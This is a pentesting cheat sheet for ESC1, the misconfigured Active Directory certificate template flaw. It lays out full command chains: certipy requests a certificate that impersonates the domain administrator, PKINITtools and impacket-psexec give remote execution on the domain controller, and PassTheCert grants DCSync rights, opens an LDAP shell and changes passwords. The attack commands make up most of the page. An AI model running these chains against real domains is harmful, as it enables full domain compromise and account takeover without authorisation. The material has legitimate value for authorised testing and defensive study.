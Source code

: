 # ESC1

**ESC1** is a vulnerability where **a low-privileged user** in a Windows domain can **abuse misconfigured certificate templates** to get a certificate that lets them **impersonate another user — even a domain admin**.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Get the .pfx cert

{% code overflow="wrap" %}
```bash
#To specify a user account in the SAN
certipy req -ca 'ca_name' -dc-ip 'DC_IP' -u 'USER' -p 'PASS' -template 'ESC1' -target 'FQDN' -upn 'administrator@DOMAIN.local'

certipy req -u "USER@DOMAIN.local" -p 'PASS' -dc-ip 'DC_IP' -target "FQDN" -ca 'ca_name' -template 'vulnerable_template' -upn 'administrator@DOMAIN.local'
```
{% endcode %}

{% hint style="info" %}
The `$ADCS_HOST` target must be a FQDN (not an IP).
{% endhint %}

## Use pfx cert

### Pass-the-Ticket to auth

Once we have the .pfx file we can use the Pass-the-Ticket technique to get TGT and impersonate the domain admin user.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>git clone https://github.com/dirkjanm/PKINITtools
</strong>
<strong>
</strong><strong>python getttgtpkinit.py &#x3C;DOMAIN>/administrator -cert-pfx /PATH/TO/administrator.pfx PKINIT-Administrator.ccache
</strong>
export KRB5CCNAME=PKINIT-Administrator.ccache

impacket-psexec administrator@&#x3C;DC_IP> -k -no-pass

</code></pre>



### Pass-the-Cert to auth

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or change password for a specific user.

{% code overflow="wrap" %}
```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
git clone https://github.com/AlmondOffSec/PassTheCert

passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate

# remote code execution
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain DOMAIN.local -dc-ip IP 
```
{% endcode %}

When we have a ldap-shell we can change a user passowrd using the `change_password` function.



## Resources

{% embed url="https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc1/#elementor-toc__heading-anchor-9" %}
